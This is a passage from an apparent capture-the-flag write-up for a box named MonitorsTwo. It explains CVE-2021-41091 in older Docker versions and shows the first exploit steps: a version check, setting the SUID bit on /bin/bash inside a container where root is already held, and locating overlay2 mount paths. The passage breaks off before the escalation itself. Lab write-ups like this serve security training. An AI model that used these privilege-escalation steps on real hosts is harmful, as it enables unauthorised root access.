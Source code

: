 An adminstrator warns us that three vulnerabilites were recently discovered and
might affect our system.

The [CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) looks
particularly promising to me.

## Privilege escalation ([CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091))

[CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) is a
vulnerability affecting Moby versions prior to `20.10.9`. Due to insufficiently
restricted permissions, a local user has access to the content of the Docker
data directory, typically located at `/var/lib/docker`, as if he exists on the
container. Therefore, he's able to read, write and execute any files on a Docker
container if the permissions in this container allow it. Moreover, if a binary
in this container has the SUID bit set, the user can execute it with the owner's
privileges from the system, resulting in a privilege escalation vulnerability.

### Checks

Let's check if our version of Docker has been updated, as suggested by the
administrator.

```sh
marcus@monitorstwo:~$ docker -v
```

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

It hasn't been yet!

### Preparation

The goal is to get an elevated shell on MonitorTwo by executing `/bin/bash` as
`root`.

First, we need to set the SUID bit on the `/bin/bash` binary in a Docker
container. I'll do it on the `172.19.0.3` host, since we already got `root` on
it.

```sh
root@50bca5e748b0:/var/www/html# chmod u+s "/bin/bash"
```

Then, let's find the directories that are mounted by the Docker containers.

```sh
marcus@monitorstwo:~$ findmnt | grep "/var/lib/docker/overlay2" | awk '{print $1}' | sed 's/..//'
```

```
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```

One of these folders corresponds to the host `172.19.0.3`.
